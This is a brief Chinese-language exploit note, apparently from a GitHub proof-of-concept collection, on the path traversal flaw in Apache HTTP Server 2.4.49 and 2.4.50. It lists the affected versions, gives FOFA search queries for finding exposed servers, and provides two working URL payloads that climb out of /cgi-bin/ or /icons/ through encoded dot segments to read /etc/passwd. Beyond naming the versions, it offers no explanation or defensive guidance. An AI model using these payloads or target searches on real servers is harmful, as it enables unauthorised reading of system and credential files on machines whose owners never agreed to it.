 # Apache HTTP Server 路径穿越漏洞
## 影响版本
- Apache HTTP Server 2.4.50  
- Apache HTTP Server 2.4.49
## 资产搜索
fofa app="APACHE-Web-Server"  
fofa server="Apache/2.4.49"
## POC
```url
/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
或者
/icons/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
```